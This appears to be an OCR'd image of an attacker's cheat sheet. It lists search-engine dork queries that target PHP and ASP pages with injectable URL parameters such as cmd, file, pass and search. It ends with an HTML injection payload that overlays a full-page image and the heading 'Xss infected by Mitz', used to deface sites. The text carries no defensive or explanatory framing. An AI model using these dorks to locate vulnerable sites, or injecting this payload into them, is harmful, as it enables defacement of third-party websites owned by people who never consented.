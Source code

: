 inurl:".php?cmd="
inurl:".php?z="
inurl:".php?q="
inurl:".php?search="
inurl:".php?query="
inurl:".php?searchstring="
inurl:".php?keyword="
inurl:".php?file="
inurl:".php?years="
inurl:".php?txt="
inurl:".php?tag="
inurl:".php?max="
inurl:".php?from="
inurl:".php?author="
inurl:".php?pass="
inurl:".php?feedback="
inurl:".php?mail="
inurl:".php?cat="
inurl:".php?vote="
inurl:search.php?q=
inurl:com_feedpostold/feedpost.php?url=
inurl:scrapbook.php?id=
inurl:headersearch.php?sid=
inurl:/poll/default.asp?catid=
inurl:/search_results.php?search=

CODE:"><img src=https://i.ytimg.com/vi/pkag6PUoWBE/hqdefault.jpg width=100% height=100%><br><h1>Xss infected by Mitz</h1>
